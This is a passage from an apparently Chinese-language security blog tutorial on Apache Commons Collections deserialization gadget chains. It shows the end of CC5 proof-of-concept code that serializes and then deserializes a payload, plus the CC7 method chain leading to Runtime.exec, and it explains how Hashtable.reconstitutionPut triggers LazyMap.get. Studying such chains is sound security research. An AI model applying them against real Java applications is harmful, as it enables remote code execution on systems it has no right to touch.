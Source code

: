             try{
                ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc5"));
                outputStream.writeObject(poc);
                outputStream.close();
    
                ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc5"));
                inputStream.readObject();
            }catch(Exception e){
                e.printStackTrace();
            }
        }
    }
    

CC7
===

    /* Payload method chain:
        java.util.Hashtable.readObject
        java.util.Hashtable.reconstitutionPut
        org.apache.commons.collections.map.AbstractMapDecorator.equals
        java.util.AbstractMap.equals
        org.apache.commons.collections.map.LazyMap.get
        org.apache.commons.collections.functors.ChainedTransformer.transform
        org.apache.commons.collections.functors.InvokerTransformer.transform
        java.lang.reflect.Method.invoke
        sun.reflect.DelegatingMethodAccessorImpl.invoke
        sun.reflect.NativeMethodAccessorImpl.invoke
        sun.reflect.NativeMethodAccessorImpl.invoke0
        java.lang.Runtime.exec
    */
    

cc7后半段与cc1相同，前半段（如何触发LazyMap#get）不同

在cc1中是通过`AnnotationInvocationHandler#invoke`来触发对恶意代理handler调用其invoke方法从而触发`LazyMap#get`方法。

而cc7中是通过`AbstractMap#equals`来触发对`LazyMap#get`方法的调用

![image-20221113183401186](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113183405291-972066684.png)

如果这里的m是我们可控的，那么我们设置m为LazyMap，即可完成后面的rce触发

先寻找调用equals方法的点，cc7中使用了`HashTable#reconstitutionPut`：

![image-20221113183550735](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113183556260-323265334.png)

这里的key如果是我们可控的，那么m就是我们可控的，接着在`HashTable#readObject`中调用了`reconstitutionPut`方法，并将key传递进去

![image-20221113183645149](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113183649043-1739448716.png)

接下来就是看如何对参数进行控制的问题了。

在`readObject`方法中传递进去的key，是使用readObject得到的，那么在`writeObject`处，也必然会有：

![image-20221113183742054](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113183745715-239688937.png)
